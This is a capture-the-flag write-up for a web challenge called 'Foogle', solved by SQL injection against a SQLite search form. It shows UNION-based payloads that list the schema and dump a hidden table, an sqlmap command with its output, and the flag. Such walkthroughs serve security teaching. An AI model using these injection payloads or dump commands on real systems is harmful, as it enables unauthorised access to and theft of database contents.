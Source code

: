 # Foogle
![](https://img.shields.io/badge/category-web-blue)

## Description
With Google being the world’s largest search engine, you wonder if you could steal some of their market share. After all, creating search engines is easy enough and if you do manage to steal some Google users, you can put ‘Created major Google rival’ in your résumé. However, you have no idea how to even create search engines, so you outsource your work to a team of high school students, disguised as a ‘free internship at a fast-growing tech startup.’

Now, having spent no money or time, you have a fully functional search engine, called Foogle. Naturally, as a cost-saving measure, you fired all the interns as soon as they were done.

[http://138.197.69.9:30001](http://138.197.69.9:30001)

## Hints
Unfortunately for you, **jdabtieu**, the project lead, went to the Toronto Star after learning that he got stiffed. In the article, he said, ‘Oh, and I might have injected some nasty security vulnerabilities in the code, just in case I didn’t get paid.’ You wonder to yourself, what nasty surprise could he have injected? The search engine is just an input field connected to a database and…oh.

## Solution
Opening the webpage shows that it looks like a low quality clone of Google. As the hint suggests, we'll likely have to perform a SQLi attack. Additionally, looking at the changelog shows the same thing: Version 1.3.2 rolled back SQL injection protection. Additionally, searching the search engine for something generic, like the letter a, results in two results hinting at injecting SQLite.

The way a basic search query would work in a database looks something like this:
```sql
SELECT * FROM table_name /* selects all results from table_name matching the criteria below */
    WHERE description LIKE '%query_goes_here%' /* query should be in the description of the search result */
    ...;
```

We can confirm that it is injectable by doing the search query `a'`. This would cause a syntax error, causing an Internal Server Error if the site is vulnerable.

### Manually Exploiting the Database
While tools like SQLmap are powerful, they might not always work. It's good practice to do some manual exploitation.

We can observe that the table likely has at least 3 fields - one for URL, title, and description. Thus, to leak all the tables, we can use the following as a search query:
```sql
' UNION SELECT sql, NULL, NULL FROM sqlite_master--
```
This query appends the result of `SELECT sql, NULL, NULL FROM sqlite_master` to the search results, and comments out the rest of the query. `sqlite_master` is a special table in sqlite containing the schema and table names of all the tables in a database.

By executing this query, we notice two new search results - notably, the schema of the search table, and also another table called s3cr3t.

To leak this s3cr3t table, we can use this following query:
```sql
' UNION SELECT flag, NULL, NULL FROM s3cr3t--
```
Just like the previous question, it appends the entire s3cr3t table to the search results.

And as expected, we get a flag.

Flag: `CTF{sanitize_input_lmao_sqli}`.

### Exploiting with SQLmap
We already know that it's vulnerable to SQL injection, and that the backend database system is SQLite. This is enough information for SQLmap to try and leak the database. (Note: depending on your computer, you might have to replace `python3` with `python`)
```
jww20@Windows:/tmp/sqlmap$ python3 sqlmap.py --url 138.197.69.9:30001 --forms --dbms sqlite --dump
```
The url flag is used to specify the url of the vulnerable webpage, `--forms` tells it to automatically look for forms, `--dbms sqlite` tells it that the database is SQLite so that it won't have to waste time trying other SQL configurations, and `--dump` tells SQLmap to dump the database so we can read it.

Following the prompts, SQLmap is able to detect the search form, but it claims that there is a connection problem. We know that's not true because we have no problem accessing the site. Let's just ignore it and tell SQLmap to continue.

SQLmap does end up finding a vulnerability:
```
[13:16:08] [INFO] target URL appears to have 3 columns in query
[13:16:08] [INFO] GET parameter 'q' is 'Generic UNION query (NULL) - 1 to 10 columns' injectable
[13:16:08] [INFO] checking if the injection point on GET parameter 'q' is a false positive
```
That's the same thing we found manually!

```
[13:17:20] [INFO] fetching columns for table 's3cr3t'
[13:17:20] [INFO] fetching entries for table 's3cr3t'
Database: <current>
Table: s3cr3t
[1 entry]
+-------------------------------+
| flag                          |
+-------------------------------+
| CTF{sanitize_input_lmao_sqli} |
+-------------------------------+

[13:17:20] [INFO] table 'SQLite_masterdb.s3cr3t' dumped to CSV file
[13:17:20] [INFO] fetching columns for table 'search'
[13:17:20] [INFO] fetching entries for table 'search'
Database: <current>
Table: search
[10 entries]
+----------------+--------------------------------+---------------------------+
| link           | title                          | description               |
+----------------+--------------------------------+---------------------------+
...(cut off this table because it's not relevant)
```

Flag: `CTF{sanitize_input_lmao_sqli}`
